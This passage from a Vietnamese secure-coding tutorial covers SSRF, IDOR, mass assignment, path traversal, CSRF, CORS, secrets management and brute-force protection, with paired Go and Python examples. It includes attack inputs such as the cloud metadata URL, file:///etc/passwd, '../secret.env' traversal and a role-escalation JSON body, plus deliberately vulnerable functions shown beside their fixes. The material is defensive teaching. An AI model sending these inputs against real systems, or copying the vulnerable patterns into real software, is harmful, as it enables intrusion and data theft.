    		"http://127.0.0.1:6379/",
    		"http://169.254.169.254/latest/meta-data/",
    		"http://10.0.0.5/admin",
    		"http://[::1]/",
    		"http://localhost:8080/",
    		"file:///etc/passwd",
    	} {
    		if err := checkURL(u); err != nil {
    			fmt.Printf("CHẶN  %-42s %v\n", u, err)
    		} else {
    			fmt.Printf("CHO   %s\n", u)
    		}
    	}

    	// Server "nội bộ" chạy ở 127.0.0.1 - safeClient phải từ chối
    	internal := httptest.NewServer(http.HandlerFunc(func(w http.ResponseWriter, r *http.Request) {
    		fmt.Fprint(w, "SECRET")
    	}))
    	defer internal.Close()
    	_, err := safeClient().Get(internal.URL)
    	fmt.Println("safeClient chặn 127.0.0.1:", err != nil && strings.Contains(err.Error(), "chặn kết nối"))
    }

    // Output:
    // CHO   http://93.184.215.14/logo.png
    // CHẶN  http://127.0.0.1:6379/                     host 127.0.0.1 trỏ tới địa chỉ nội bộ
    // CHẶN  http://169.254.169.254/latest/meta-data/   host 169.254.169.254 trỏ tới địa chỉ nội bộ
    // CHẶN  http://10.0.0.5/admin                      host 10.0.0.5 trỏ tới địa chỉ nội bộ
    // CHẶN  http://[::1]/                              host ::1 trỏ tới địa chỉ nội bộ
    // CHẶN  http://localhost:8080/                     host localhost trỏ tới địa chỉ nội bộ
    // CHẶN  file:///etc/passwd                         scheme "file" bị cấm
    // safeClient chặn 127.0.0.1: true
    ```

=== "Python"

    ```python
    import ipaddress
    import socket
    from urllib.parse import urlparse


    def check_url(raw: str) -> None:
        u = urlparse(raw)
        if u.scheme not in ("http", "https"):
            raise ValueError(f"scheme {u.scheme!r} bị cấm")
        if not u.hostname:
            raise ValueError("thiếu host")
        for *_, sockaddr in socket.getaddrinfo(u.hostname, None):
            ip = ipaddress.ip_address(sockaddr[0])
            # is_global = False cho loopback, private, link-local, CGNAT, reserved...
            if not ip.is_global:
                raise ValueError(f"host {u.hostname} trỏ tới địa chỉ nội bộ")


    if __name__ == "__main__":
        for url in [
            "http://93.184.215.14/logo.png",
            "http://127.0.0.1:6379/",
            "http://169.254.169.254/latest/meta-data/",
            "http://10.0.0.5/admin",
            "http://[::1]/",
            "http://localhost:8080/",
            "file:///etc/passwd",
        ]:
            try:
                check_url(url)
                print(f"CHO   {url}")
            except ValueError as e:
                print(f"CHẶN  {url:<42} {e}")

    # Output:
    # CHO   http://93.184.215.14/logo.png
    # CHẶN  http://127.0.0.1:6379/                     host 127.0.0.1 trỏ tới địa chỉ nội bộ
    # CHẶN  http://169.254.169.254/latest/meta-data/   host 169.254.169.254 trỏ tới địa chỉ nội bộ
    # CHẶN  http://10.0.0.5/admin                      host 10.0.0.5 trỏ tới địa chỉ nội bộ
    # CHẶN  http://[::1]/                              host ::1 trỏ tới địa chỉ nội bộ
    # CHẶN  http://localhost:8080/                     host localhost trỏ tới địa chỉ nội bộ
    # CHẶN  file:///etc/passwd                         scheme 'file' bị cấm
    ```

!!! tip "Python: kiểm tra lúc kết nối"
    `check_url` rồi mới gọi `requests.get(url)` vẫn có khe hở DNS rebinding (DNS được phân giải **lần hai** khi kết nối). Cách chắc chắn: phân giải một lần, kết nối thẳng tới **IP đã kiểm tra** (giữ header `Host` gốc), hoặc dùng proxy egress chuyên dụng (ví dụ Smokescreen của Stripe) làm "cổng ra" duy nhất cho mọi request do người dùng điều khiển.

### 3.5. IDOR và Mass Assignment (A01 — Broken Access Control)

**IDOR** (Insecure Direct Object Reference): API nhận ID từ client và trả về đối tượng **mà không kiểm tra người gọi có quyền với đối tượng đó không**. Đổi `GET /orders/1001` thành `/orders/1002` là xem được đơn của người khác. Đây là lỗ hổng **phổ biến nhất** trong các chương trình bug bounty.

**Mass assignment**: bind **toàn bộ** JSON vào model — kẻ tấn công gửi thêm trường mà form không có (`"role":"admin"`, `"balance":999999999`, `"is_verified":true`).

=== "Go"

    ```go
    package main

    import (
    	"bytes"
    	"encoding/json"
    	"errors"
    	"fmt"
    )

    // ---------- IDOR ----------
    type Order struct {
    	ID, OwnerID, Total int
    }

    var orders = map[int]Order{
    	1001: {ID: 1001, OwnerID: 1, Total: 250_000},
    	1002: {ID: 1002, OwnerID: 2, Total: 990_000},
    }

    var ErrNotFound = errors.New("không tìm thấy")

    // ❌ Chỉ kiểm tra "có tồn tại không"
    func getOrderVulnerable(currentUser, id int) (Order, error) {
    	o, ok := orders[id]
    	if !ok {
    		return Order{}, ErrNotFound
    	}
    	return o, nil
    }

    // ✅ Kiểm tra quyền sở hữu. Trả 404 (không phải 403) để không lộ việc đơn có tồn tại.
    // Trong SQL: SELECT ... WHERE id = $1 AND owner_id = $2
    func getOrderSecure(currentUser, id int) (Order, error) {
    	o, ok := orders[id]
    	if !ok || o.OwnerID != currentUser {
    		return Order{}, ErrNotFound
    	}
    	return o, nil
    }

    // ---------- Mass assignment ----------
    type User struct {
    	ID      int    `json:"id"`
    	Name    string `json:"name"`
    	Role    string `json:"role"`
    	Balance int    `json:"balance"`
    }

    // ✅ DTO chỉ chứa trường người dùng ĐƯỢC PHÉP sửa
    type UpdateProfileRequest struct {
    	Name *string `json:"name"`
    }

    func main() {
    	// User 1 (đang đăng nhập) thử xem đơn 1002 của user 2
    	o, err := getOrderVulnerable(1, 1002)
    	fmt.Println("❌ IDOR:", o, err)
    	o, err = getOrderSecure(1, 1002)
    	fmt.Println("✅ IDOR:", o, err)

    	body := []byte(`{"name":"Mallory","role":"admin","balance":999999999}`)

    	u := User{ID: 1, Name: "An", Role: "user", Balance: 0}
    	json.Unmarshal(body, &u) // ❌ bind thẳng vào model
    	fmt.Printf("❌ mass assignment: %+v\n", u)

    	u = User{ID: 1, Name: "An", Role: "user", Balance: 0}
    	var req UpdateProfileRequest
    	dec := json.NewDecoder(bytes.NewReader(body))
    	dec.DisallowUnknownFields() // trường lạ -> lỗi 400, dễ phát hiện kẻ dò
    	if err := dec.Decode(&req); err != nil {
    		fmt.Println("✅ từ chối:", err)
    	} else if req.Name != nil {
    		u.Name = *req.Name
    	}
    	fmt.Printf("✅ user sau cập nhật: %+v\n", u)
    }

    // Output:
    // ❌ IDOR: {1002 2 990000} <nil>
    // ✅ IDOR: {0 0 0} không tìm thấy
    // ❌ mass assignment: {ID:1 Name:Mallory Role:admin Balance:999999999}
    // ✅ từ chối: json: unknown field "role"
    // ✅ user sau cập nhật: {ID:1 Name:An Role:user Balance:0}
    ```

=== "Python"

    ```python
    from dataclasses import dataclass


    class NotFound(Exception):
        pass


    @dataclass
    class Order:
        id: int
        owner_id: int
        total: int


    ORDERS = {1001: Order(1001, 1, 250_000), 1002: Order(1002, 2, 990_000)}


    def get_order_vulnerable(current_user: int, order_id: int) -> Order:
        if order_id not in ORDERS:              # ❌ chỉ kiểm tra tồn tại
            raise NotFound("không tìm thấy")
        return ORDERS[order_id]


    def get_order_secure(current_user: int, order_id: int) -> Order:
        o = ORDERS.get(order_id)
        if o is None or o.owner_id != current_user:   # ✅ kiểm tra quyền sở hữu
            raise NotFound("không tìm thấy")
        return o


    @dataclass
    class User:
        id: int
        name: str
        role: str
        balance: int


    UPDATABLE_FIELDS = {"name"}  # ✅ allowlist


    def update_vulnerable(user: User, payload: dict) -> None:
        for k, v in payload.items():            # ❌ gán mọi trường client gửi
            setattr(user, k, v)


    def update_secure(user: User, payload: dict) -> None:
        unknown = set(payload) - UPDATABLE_FIELDS
        if unknown:
            raise ValueError(f"trường không được phép: {sorted(unknown)}")
        for k, v in payload.items():
            setattr(user, k, v)


    if __name__ == "__main__":
        print("❌ IDOR:", get_order_vulnerable(1, 1002))
        try:
            get_order_secure(1, 1002)
        except NotFound as e:
            print("✅ IDOR:", e)

        payload = {"name": "Mallory", "role": "admin", "balance": 999_999_999}
        u = User(1, "An", "user", 0)
        update_vulnerable(u, payload)
        print("❌ mass assignment:", u)

        u = User(1, "An", "user", 0)
        try:
            update_secure(u, payload)
        except ValueError as e:
            print("✅ từ chối:", e)
        print("✅ user sau cập nhật:", u)

    # Output:
    # ❌ IDOR: Order(id=1002, owner_id=2, total=990000)
    # ✅ IDOR: không tìm thấy
    # ❌ mass assignment: User(id=1, name='Mallory', role='admin', balance=999999999)
    # ✅ từ chối: trường không được phép: ['balance', 'role']
    # ✅ user sau cập nhật: User(id=1, name='An', role='user', balance=0)
    ```

!!! tip "Chống IDOR ở tầng thiết kế"
    - **Luôn** lấy `current_user` từ session/token đã xác thực, **không bao giờ** từ body/query (`?user_id=2`).
    - Đưa điều kiện sở hữu vào **câu truy vấn** (`WHERE id = $1 AND owner_id = $2`) thay vì kiểm tra sau — không thể quên.
    - Dùng ID khó đoán (UUID) chỉ là **lớp phụ**, không thay được kiểm tra quyền.
    - Viết **test phân quyền**: user A gọi API với tài nguyên của user B phải nhận 404.
    - Với Pydantic/FastAPI: tách schema `UserUpdate` (chỉ trường được sửa) khỏi `User`, bật `model_config = ConfigDict(extra="forbid")`.

### 3.6. Path Traversal (A01)

**Cơ chế**: tên file lấy từ input (`/download?file=report.pdf`) bị ghép vào đường dẫn. Kẻ tấn công gửi `../../etc/passwd` hoặc `../.env` để đọc file ngoài thư mục cho phép.

=== "Go"

    ```go
    package main

    import (
    	"fmt"
    	"os"
    	"path/filepath"
    	"strings"
    )

    func main() {
    	base, _ := os.MkdirTemp("", "demo")
    	defer os.RemoveAll(base)
    	public := filepath.Join(base, "public")
    	os.Mkdir(public, 0o755)
    	os.WriteFile(filepath.Join(public, "hello.txt"), []byte("xin chào"), 0o644)
    	os.WriteFile(filepath.Join(base, "secret.env"), []byte("DB_PASSWORD=supersecret"), 0o600)

    	// ❌ Ghép thẳng input vào đường dẫn
    	readVulnerable := func(name string) string {
    		b, err := os.ReadFile(filepath.Join(public, name))
    		if err != nil {
    			return "lỗi"
    		}
    		return string(b)
    	}

    	// ✅ Cách 1 (Go 1.24+): os.Root - mọi thao tác bị "nhốt" trong thư mục gốc,
    	// kể cả khi đi qua symlink
    	root, _ := os.OpenRoot(public)
    	defer root.Close()
    	readRoot := func(name string) string {
    		f, err := root.Open(name)
    		if err != nil {
    			return "từ chối: " + err.Error()
    		}
    		defer f.Close()
    		b := make([]byte, 100)
    		n, _ := f.Read(b)
    		return string(b[:n])
    	}

    	// ✅ Cách 2: tự kiểm tra đường dẫn sau khi làm sạch
    	readChecked := func(name string) string {
    		p := filepath.Join(public, name) // Join đã gọi Clean: xử lý "../"
    		rel, err := filepath.Rel(public, p)
    		if err != nil || rel == ".." || strings.HasPrefix(rel, ".."+string(filepath.Separator)) {
    			return "từ chối: đường dẫn ra ngoài thư mục cho phép"
    		}
    		b, err := os.ReadFile(p)
    		if err != nil {
    			return "lỗi"
    		}
    		return string(b)
    	}

    	for _, name := range []string{"hello.txt", "../secret.env"} {
    		fmt.Println("file:", name)
    		fmt.Println("  ❌", readVulnerable(name))
    		fmt.Println("  ✅", readRoot(name))
    		fmt.Println("  ✅", readChecked(name))
    	}
    }

    // Output:
    // file: hello.txt
    //   ❌ xin chào
    //   ✅ xin chào
    //   ✅ xin chào
    // file: ../secret.env
    //   ❌ DB_PASSWORD=supersecret
    //   ✅ từ chối: openat ../secret.env: path escapes from parent
    //   ✅ từ chối: đường dẫn ra ngoài thư mục cho phép
    ```

=== "Python"

    ```python
    import tempfile
    from pathlib import Path

    tmp = tempfile.TemporaryDirectory()
    BASE = Path(tmp.name)
    PUBLIC = BASE / "public"
    PUBLIC.mkdir()
    (PUBLIC / "hello.txt").write_text("xin chào")
    (BASE / "secret.env").write_text("DB_PASSWORD=supersecret")


    def read_vulnerable(name: str) -> str:
        return (PUBLIC / name).read_text()      # ❌


    def read_safe(name: str) -> str:
        p = (PUBLIC / name).resolve()           # resolve: xử lý "..", symlink
        if not p.is_relative_to(PUBLIC.resolve()):
            return "từ chối: đường dẫn ra ngoài thư mục cho phép"
        return p.read_text()


    if __name__ == "__main__":
        for name in ["hello.txt", "../secret.env", str(BASE / "secret.env")]:
            print("file:", name.replace(tmp.name, "<tmp>"))
            print("  ❌", read_vulnerable(name))
            print("  ✅", read_safe(name))
        tmp.cleanup()

    # Output:
    # file: hello.txt
    #   ❌ xin chào
    #   ✅ xin chào
    # file: ../secret.env
    #   ❌ DB_PASSWORD=supersecret
    #   ✅ từ chối: đường dẫn ra ngoài thư mục cho phép
    # file: <tmp>/secret.env
    #   ❌ DB_PASSWORD=supersecret
    #   ✅ từ chối: đường dẫn ra ngoài thư mục cho phép
    ```

Chú ý dòng cuối của Python: `PUBLIC / "/tmp/.../secret.env"` trả về **chính đường dẫn tuyệt đối** (toán tử `/` của `pathlib` bỏ phần trước khi gặp đường dẫn tuyệt đối — `os.path.join` cũng vậy). Rất nhiều người nghĩ "ghép với thư mục gốc là an toàn" và bị lừa đúng chỗ này.

!!! tip "Cách an toàn nhất: đừng dùng tên file của người dùng"
    Lưu file upload với tên do **server sinh** (UUID), lưu tên gốc trong database. Khi tải về: `GET /files/{uuid}` → tra DB → kiểm tra quyền → đọc file theo UUID. Tốt hơn nữa: lưu trên object storage (S3) và trả **presigned URL** có hạn.

### 3.7. CSRF — Cross-Site Request Forgery

**Cơ chế**: bạn đang đăng nhập `bank.vn` (cookie session còn hạn). Bạn mở `evil.vn`, trang đó âm thầm submit form tới `bank.vn/transfer`. Trình duyệt **tự động gửi kèm cookie** của `bank.vn` → ngân hàng tưởng chính bạn chuyển tiền.



Cách phòng chống (kết hợp):

| Biện pháp | Cách hoạt động |
|-----------|----------------|
| **Cookie `SameSite=Lax`** (mặc định của Chrome) hoặc `Strict` | Trình duyệt **không gửi cookie** trong request POST khởi phát từ site khác |
| **CSRF token** (synchronizer / double-submit) | Form có token ngẫu nhiên gắn với session; `evil.vn` không đọc được token nên không giả được |
| **Kiểm tra header `Origin`/`Sec-Fetch-Site`** | Từ chối request thay đổi dữ liệu nếu `Origin` không phải domain của bạn |
| **Không dùng GET để thay đổi dữ liệu** | `` không làm gì được |
| Xác nhận lại với thao tác nhạy cảm | Nhập OTP / mật khẩu khi chuyển tiền |

=== "Go"

    ```go
    // Đoạn trích: middleware kiểm tra Origin + CSRF token (double-submit cookie).
    // Go 1.25 có sẵn http.CrossOriginProtection dựa trên Sec-Fetch-Site/Origin.
    func CSRF(next http.Handler) http.Handler {
    	return http.HandlerFunc(func(w http.ResponseWriter, r *http.Request) {
    		if r.Method == http.MethodGet || r.Method == http.MethodHead || r.Method == http.MethodOptions {
    			next.ServeHTTP(w, r)
    			return
    		}
    		if o := r.Header.Get("Origin"); o != "" && o != "https://shop.vn" {
    			http.Error(w, "cross-origin request bị chặn", http.StatusForbidden)
    			return
    		}
    		c, err := r.Cookie("csrf_token")
    		sent := r.Header.Get("X-CSRF-Token")
    		if err != nil || sent == "" || subtle.ConstantTimeCompare([]byte(c.Value), []byte(sent)) != 1 {
    			http.Error(w, "CSRF token không hợp lệ", http.StatusForbidden)
    			return
    		}
    		next.ServeHTTP(w, r)
    	})
    }
    ```

=== "Python"

    ```python
    # Đoạn trích: FastAPI middleware kiểm tra Origin + CSRF token (double-submit cookie).
    # Django có sẵn CsrfViewMiddleware; Flask dùng Flask-WTF.
    import hmac

    @app.middleware("http")
    async def csrf_protect(request: Request, call_next):
        if request.method not in ("GET", "HEAD", "OPTIONS"):
            origin = request.headers.get("origin")
            if origin and origin != "https://shop.vn":
                return JSONResponse({"error": "cross-origin request bị chặn"}, status_code=403)
            cookie = request.cookies.get("csrf_token", "")
            sent = request.headers.get("x-csrf-token", "")
            if not cookie or not hmac.compare_digest(cookie, sent):
                return JSONResponse({"error": "CSRF token không hợp lệ"}, status_code=403)
        return await call_next(request)
    ```

!!! note "API dùng token trong header thì sao?"
    Nếu API xác thực bằng `Authorization: Bearer <token>` (lưu ở bộ nhớ app, không phải cookie) thì trình duyệt **không tự gửi** token → không bị CSRF. CSRF chỉ là vấn đề khi xác thực dựa vào thứ trình duyệt **tự động đính kèm** (cookie, HTTP Basic). Đổi lại, token lưu trong `localStorage` dễ bị đánh cắp bởi XSS — không có lựa chọn nào miễn phí.

## 📖 4. Validate Input

Nguyên tắc: **validate ở server, theo allowlist, càng sớm càng tốt** (ngay khi dữ liệu vào hệ thống). Validate ở frontend chỉ để trải nghiệm người dùng tốt hơn — kẻ tấn công gọi thẳng API bằng `curl`.

| Kiểm tra | Ví dụ |
|----------|-------|
| **Kiểu dữ liệu** | `quantity` phải là số nguyên, không phải `"1; DROP"` |
| **Khoảng giá trị** | `1 ≤ quantity ≤ 100`, `price > 0`, ngày sinh không ở tương lai |
| **Độ dài** | `name` ≤ 100 ký tự, mô tả ≤ 5000 |
| **Định dạng (allowlist)** | Số điện thoại VN `^(0|\+84)(3|5|7|8|9)\d{8}$`, mã tỉnh trong danh sách 63/34 tỉnh |
| **Kích thước request** | Body ≤ 1MB (Go: `http.MaxBytesReader`; Nginx: `client_max_body_size`) |
| **Enum** | `status ∈ {pending, paid, shipped}` |
| **Ngữ nghĩa nghiệp vụ** | Không đặt hàng số lượng lớn hơn tồn kho; giá lấy từ DB, **không** từ client |

!!! warning "Validate ≠ Escape"
    Validate là **từ chối** dữ liệu sai. Escape/parameterize là **xử lý an toàn** dữ liệu khi đưa vào một ngữ cảnh (SQL, HTML, shell). Cần **cả hai**. Một cái tên hợp lệ như `O'Brien` hay `Nguyễn "Tèo"` vẫn phải được parameterize khi vào SQL.

Thư viện gợi ý: Go `github.com/go-playground/validator` (struct tag `validate:"required,email,max=100"`); Python **Pydantic** (FastAPI dùng sẵn).

## 📖 5. CORS và Security Headers

### 5.1. Same-Origin Policy và CORS

Trình duyệt có luật **Same-Origin Policy**: JavaScript ở `https://app.shop.vn` **không được đọc** response từ `https://api.shop.vn` (khác origin = khác scheme, host hoặc port) — trừ khi server API **cho phép** bằng header CORS (Cross-Origin Resource Sharing).

!!! note "CORS là cơ chế NỚI LỎNG, không phải bảo vệ server"
    CORS được **trình duyệt** thực thi để bảo vệ **người dùng**. `curl`, Postman, server khác **không quan tâm** CORS. Cấu hình CORS chặt không thay được authentication. Nhưng cấu hình **lỏng** (phản chiếu mọi `Origin` + `Allow-Credentials: true`) thì cho phép mọi website đọc dữ liệu của người dùng đang đăng nhập — đó là lỗ hổng.

Với request "không đơn giản" (method `PUT/DELETE/PATCH`, header `Authorization`, `Content-Type: application/json`...), trình duyệt gửi **preflight** `OPTIONS` hỏi trước:



### 5.2. Middleware CORS + Security headers

=== "Go"

    ```go
    package main

    import (
    	"fmt"
    	"net/http"
    	"net/http/httptest"
    )

    var allowedOrigins = map[string]bool{
    	"https://app.shop.vn":   true,
    	"https://admin.shop.vn": true,
    }

    func SecurityHeaders(next http.Handler) http.Handler {
    	return http.HandlerFunc(func(w http.ResponseWriter, r *http.Request) {
    		h := w.Header()
    		h.Set("Strict-Transport-Security", "max-age=63072000; includeSubDomains")
    		h.Set("X-Content-Type-Options", "nosniff")
    		h.Set("X-Frame-Options", "DENY")
    		h.Set("Referrer-Policy", "strict-origin-when-cross-origin")
    		h.Set("Content-Security-Policy", "default-src 'self'; frame-ancestors 'none'")
    		next.ServeHTTP(w, r)
    	})
    }

    func CORS(next http.Handler) http.Handler {
    	return http.HandlerFunc(func(w http.ResponseWriter, r *http.Request) {
    		origin := r.Header.Get("Origin")
    		w.Header().Add("Vary", "Origin") // cache (CDN) phải phân biệt theo Origin
    		if allowedOrigins[origin] {
    			w.Header().Set("Access-Control-Allow-Origin", origin)
    			w.Header().Set("Access-Control-Allow-Credentials", "true")
    		}
    		if r.Method == http.MethodOptions && r.Header.Get("Access-Control-Request-Method") != "" {
    			if allowedOrigins[origin] {
    				w.Header().Set("Access-Control-Allow-Methods", "GET, POST, PUT, DELETE")
    				w.Header().Set("Access-Control-Allow-Headers", "Authorization, Content-Type")
    				w.Header().Set("Access-Control-Max-Age", "600")
    			}
    			w.WriteHeader(http.StatusNoContent) // preflight dừng ở đây
    			return
    		}
    		next.ServeHTTP(w, r)
    	})
    }

    func main() {
    	api := http.HandlerFunc(func(w http.ResponseWriter, r *http.Request) {
    		fmt.Fprint(w, `{"ok":true}`)
    	})
    	h := SecurityHeaders(CORS(api))

    	preflight := func(origin string) {
    		req := httptest.NewRequest("OPTIONS", "/cart/items/7", nil)
    		req.Header.Set("Origin", origin)
    		req.Header.Set("Access-Control-Request-Method", "PUT")
    		rec := httptest.NewRecorder()
    		h.ServeHTTP(rec, req)
    		fmt.Printf("preflight từ %s -> %d\n", origin, rec.Code)
    		fmt.Printf("  Allow-Origin: %q\n", rec.Header().Get("Access-Control-Allow-Origin"))
    		fmt.Printf("  Allow-Methods: %q\n", rec.Header().Get("Access-Control-Allow-Methods"))
    	}
    	preflight("https://app.shop.vn")
    	preflight("https://evil.vn")

    	rec := httptest.NewRecorder()
    	h.ServeHTTP(rec, httptest.NewRequest("GET", "/", nil))
    	for _, k := range []string{"Strict-Transport-Security", "X-Content-Type-Options", "Content-Security-Policy"} {
    		fmt.Printf("%s: %s\n", k, rec.Header().Get(k))
    	}
    }

    // Output:
    // preflight từ https://app.shop.vn -> 204
    //   Allow-Origin: "https://app.shop.vn"
    //   Allow-Methods: "GET, POST, PUT, DELETE"
    // preflight từ https://evil.vn -> 204
    //   Allow-Origin: ""
    //   Allow-Methods: ""
    // Strict-Transport-Security: max-age=63072000; includeSubDomains
    // X-Content-Type-Options: nosniff
    // Content-Security-Policy: default-src 'self'; frame-ancestors 'none'
    ```

=== "Python"

    ```python
    ALLOWED_ORIGINS = {"https://app.shop.vn", "https://admin.shop.vn"}

    SECURITY_HEADERS = {
        "Strict-Transport-Security": "max-age=63072000; includeSubDomains",
        "X-Content-Type-Options": "nosniff",
        "X-Frame-Options": "DENY",
        "Referrer-Policy": "strict-origin-when-cross-origin",
        "Content-Security-Policy": "default-src 'self'; frame-ancestors 'none'",
    }


    def cors_headers(method: str, headers: dict) -> tuple[int | None, dict]:
        """Trả (status nếu là preflight, header CORS cần thêm)."""
        origin = headers.get("Origin", "")
        out = {"Vary": "Origin"}
        allowed = origin in ALLOWED_ORIGINS
        if allowed:
            out["Access-Control-Allow-Origin"] = origin
            out["Access-Control-Allow-Credentials"] = "true"
        if method == "OPTIONS" and "Access-Control-Request-Method" in headers:
            if allowed:
                out["Access-Control-Allow-Methods"] = "GET, POST, PUT, DELETE"
                out["Access-Control-Allow-Headers"] = "Authorization, Content-Type"
                out["Access-Control-Max-Age"] = "600"
            return 204, out
        return None, out


    if __name__ == "__main__":
        for origin in ["https://app.shop.vn", "https://evil.vn"]:
            status, h = cors_headers("OPTIONS", {"Origin": origin, "Access-Control-Request-Method": "PUT"})
            print(f"preflight từ {origin} -> {status}")
            print(f"  Allow-Origin: {h.get('Access-Control-Allow-Origin', '')!r}")
            print(f"  Allow-Methods: {h.get('Access-Control-Allow-Methods', '')!r}")
        for k in ["Strict-Transport-Security", "X-Content-Type-Options", "Content-Security-Policy"]:
            print(f"{k}: {SECURITY_HEADERS[k]}")

    # Output:
    # preflight từ https://app.shop.vn -> 204
    #   Allow-Origin: 'https://app.shop.vn'
    #   Allow-Methods: 'GET, POST, PUT, DELETE'
    # preflight từ https://evil.vn -> 204
    #   Allow-Origin: ''
    #   Allow-Methods: ''
    # Strict-Transport-Security: max-age=63072000; includeSubDomains
    # X-Content-Type-Options: nosniff
    # Content-Security-Policy: default-src 'self'; frame-ancestors 'none'
    ```

Trong FastAPI dùng `CORSMiddleware(allow_origins=[...], allow_credentials=True, ...)`; Go dùng `github.com/rs/cors`. Nhưng bạn đã biết chúng làm gì bên trong.

### 5.3. Ý nghĩa các security header

| Header | Chống lại | Giá trị gợi ý |
|--------|-----------|---------------|
| `Strict-Transport-Security` (HSTS) | Bị hạ cấp về HTTP, tấn công MITM ở Wi-Fi quán cà phê | `max-age=63072000; includeSubDomains` |
| `Content-Security-Policy` (CSP) | XSS, chèn script lạ | `default-src 'self'` rồi nới dần |
| `X-Content-Type-Options` | Trình duyệt "đoán" file text thành script | `nosniff` |
| `X-Frame-Options` / CSP `frame-ancestors` | **Clickjacking** (nhúng trang bạn vào iframe trong suốt) | `DENY` |
| `Referrer-Policy` | Lộ URL chứa token qua header Referer | `strict-origin-when-cross-origin` |
| `Set-Cookie` flags | Đánh cắp cookie, CSRF | `Secure; HttpOnly; SameSite=Lax` |
| Bỏ `Server`, `X-Powered-By` | Lộ phiên bản phần mềm cho kẻ dò lỗ hổng | Tắt trong Nginx/framework |

## 📖 6. TLS — những gì backend developer cần biết

**TLS** (bản kế nhiệm SSL) mã hóa kết nối giữa client và server, đảm bảo 3 điều: **bí mật** (không ai nghe lén), **toàn vẹn** (không ai sửa được), **xác thực** (đúng là server `shop.vn`, không phải kẻ giả mạo).



Những điều thực tế cần nhớ:

- **Luôn HTTPS**, kể cả API nội bộ nếu đi qua mạng không tin cậy. Chứng chỉ miễn phí với **Let's Encrypt** (tự gia hạn bằng certbot, cert-manager trên Kubernetes).
- Chỉ bật **TLS 1.2 và 1.3**; Go và Python mặc định đã hợp lý.
- **TLS termination** thường ở load balancer/Ingress; traffic từ LB vào pod có thể là HTTP trong mạng riêng — hoặc dùng **mTLS** (hai chiều, cả client cũng có chứng chỉ) giữa các service nhờ service mesh ([Bài 14](./14-architecture-microservices.md)).
- **Không bao giờ** tắt kiểm tra chứng chỉ ở production: `InsecureSkipVerify: true` (Go), `verify=False` (Python requests). Đó là mở cửa cho tấn công man-in-the-middle.
- Chi tiết cách HTTPS hoạt động: xem [Bài 1](./01-how-the-web-works.md).

## 📖 7. Quản lý Secrets

**Secret** = mật khẩu DB, API key cổng thanh toán, khóa ký JWT, private key TLS...

| ❌ Đừng | ✅ Nên |
|---------|--------|
| Hard-code trong code: `apiKey := "sk_live_..."` | Đọc từ biến môi trường / secret manager |
| Commit file `.env` lên Git | `.env` trong `.gitignore`; commit `.env.example` không chứa giá trị thật |
| Gửi secret qua Slack/Zalo/email | Chia sẻ qua secret manager / password manager của công ty |
| Một key dùng chung cho dev, staging, production | Mỗi môi trường một bộ key riêng |
| Key không bao giờ đổi | **Xoay vòng (rotate)** định kỳ và ngay khi nghi lộ |
| Build secret vào Docker image (`ENV API_KEY=...`) | Inject lúc runtime (Kubernetes Secret, Vault Agent) |
| In secret ra log khi debug | Redact (mục 10) |

Các công cụ: **HashiCorp Vault**, **AWS Secrets Manager / SSM Parameter Store**, **GCP Secret Manager**, **Azure Key Vault**, Kubernetes Secret (nhớ bật mã hóa at-rest, hoặc dùng External Secrets Operator / Sealed Secrets).

!!! warning "Lỡ commit secret lên Git thì sao?"
    **Coi như secret đã lộ** — xóa commit không đủ vì lịch sử Git, bản fork, bản clone, và bot quét GitHub chỉ cần vài **giây** để tìm ra key AWS. Việc cần làm **ngay**: (1) **revoke/rotate** key, (2) kiểm tra log xem key đã bị dùng chưa, (3) sau đó mới dọn lịch sử Git. Phòng ngừa bằng **gitleaks** / **git-secrets** / GitHub secret scanning (push protection) chạy ở pre-commit và CI.

## 📖 8. Chống Brute-force & Credential Stuffing

**Brute-force**: thử hàng nghìn mật khẩu cho một tài khoản. **Credential stuffing**: dùng cặp email/mật khẩu bị lộ từ website khác thử đăng nhập hàng loạt (vì người dùng hay dùng lại mật khẩu).

Biện pháp nhiều lớp:

1. **Rate limit theo IP** (xem thuật toán ở [Bài 10](./10-system-design.md)).
2. **Khóa tạm theo tài khoản** với thời gian tăng dần (exponential backoff) sau N lần sai — khóa **tạm**, không khóa vĩnh viễn (nếu không, kẻ xấu có thể cố tình khóa tài khoản của người khác = DoS).
3. **CAPTCHA** sau vài lần sai; **MFA** (OTP, passkey).
4. Thông báo lỗi **chung chung**: "Email hoặc mật khẩu không đúng" (không nói "email không tồn tại" → chống dò tài khoản).
5. Hash mật khẩu bằng thuật toán **chậm** (bcrypt/argon2id) — xem [Bài 4](./04-auth.md).
6. Kiểm tra mật khẩu mới với danh sách mật khẩu đã lộ (Have I Been Pwned API).

=== "Go"

    ```go
    package main

    import (
    	"fmt"
    	"time"
    )

    type LoginGuard struct {
    	maxFails    int
    	baseLock    time.Duration
    	fails       map[string]int
    	lockedUntil map[string]time.Time
    }

    func NewLoginGuard(maxFails int, baseLock time.Duration) *LoginGuard {
    	return &LoginGuard{maxFails, baseLock, map[string]int{}, map[string]time.Time{}}
    }

    // Allow: còn bị khóa không? (key nên là username; có thể thêm key theo IP)
    func (g *LoginGuard) Allow(key string, now time.Time) (bool, time.Duration) {
    	if until, ok := g.lockedUntil[key]; ok && now.Before(until) {
    		return false, until.Sub(now)
    	}
    	return true, 0
    }

    func (g *LoginGuard) Fail(key string, now time.Time) {
    	g.fails[key]++
    	if n := g.fails[key]; n >= g.maxFails {
    		// khóa 1 phút, rồi 2, 4, 8... (tối đa nên có trần, vd 1 giờ)
    		lock := g.baseLock << (n - g.maxFails)
    		g.lockedUntil[key] = now.Add(lock)
    		fmt.Printf("    -> khóa %v\n", lock)
    	}
    }

    func (g *LoginGuard) Success(key string) {
    	delete(g.fails, key)
    	delete(g.lockedUntil, key)
    }

    func main() {
    	g := NewLoginGuard(5, time.Minute)
    	t0 := time.Date(2026, 9, 28, 10, 0, 0, 0, time.UTC)
    	attempt := func(sec int, correct bool) {
    		now := t0.Add(time.Duration(sec) * time.Second)
    		if ok, wait := g.Allow("an@shop.vn", now); !ok {
    			fmt.Printf("t=%3ds: bị khóa, thử lại sau %v\n", sec, wait)
    			return
    		}
    		if correct {
    			fmt.Printf("t=%3ds: đăng nhập thành công\n", sec)
    			g.Success("an@shop.vn")
    			return
    		}
    		fmt.Printf("t=%3ds: sai mật khẩu\n", sec)
    		g.Fail("an@shop.vn", now)
    	}
    	for s := 0; s < 6; s++ {
    		attempt(s, false)
    	}
    	attempt(70, false)  // hết khóa 1 phút, sai tiếp -> khóa 2 phút
    	attempt(100, true)  // đang bị khóa, kể cả mật khẩu đúng
    	attempt(200, true)
    }

    // Output:
